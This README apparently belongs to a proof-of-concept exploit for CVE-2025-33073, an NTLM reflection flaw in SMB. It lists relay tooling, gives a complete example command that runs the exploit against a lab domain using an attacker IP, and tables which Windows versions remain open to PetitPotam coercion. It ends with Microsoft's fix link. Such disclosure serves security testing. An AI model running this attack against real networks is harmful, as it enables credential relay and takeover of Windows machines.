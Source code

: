 # CVE-2025-33073
PoC Exploit for the NTLM reflection SMB flaw.

### Prerequisites
OS: Kali Linux (has most packages pre-installed).

* Netexec (NXC) - https://github.com/Pennyw0rth/NetExec
* impacket-ntlmrelayx
* dnstool.py (included in repo)
* xterm

### Example usage

```
python3 CVE-2025-33073.py -u 'wintastic.local\mathijs' -p 'password' --attacker-ip 192.168.178.49 --dns-ip 192.168.178.138 --dc-fqdn DC01.wintastic.local --target CLIENT01.wintastic.local --target-ip 192.168.178.65
```
![image](https://github.com/user-attachments/assets/83ce744a-161e-4c0f-9f2d-6d57f23a913c)

#### Good to know
* xterm allows copying and pasting with the middle mouse button.

Some more information about the coercion that is being used:

| OS / Version                             | PetitPotam | Notes                                                                                      |
|------------------------------------------|-----------------------|--------------------------------------------------------------------------------------------|
| **Windows 11 (22H2, 23H2, 24H2)**         | ❌ No                  | Mitigated by default; MS-EFSRPC hardened and NTLM use restricted.                         |
| **Windows Server 2025 (Preview)**         | ❌ No                  | Latest builds have coercion blocked by default.                                           |
| **Windows Server 2022**                  | ❌ No                  | Patched before release; MS-EFSRPC mitigated by default.                                   |
| **Windows Server 2019**                  | ✅ Yes                 | Still works unless fully patched and NTLM restrictions configured.                        |
| **Windows Server 2016**                  | ✅ Yes                 | MS-EFSRPC interface still usable; NTLM allowed by default.                                |
| **Windows Server 2012 R2**               | ✅ Yes                 | Coercion works out of the box; needs manual hardening.                                    |
| **Windows Server 2008 R2**               | ✅ Yes                 | Fully vulnerable if unpatched; no default mitigations in place.                           |
| **Windows 10 (up to 21H2)**              | ✅ Yes                 | Vulnerable unless patched; EFSRPC coercion works if NTLM is enabled.                      |

#### How to fix
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33073
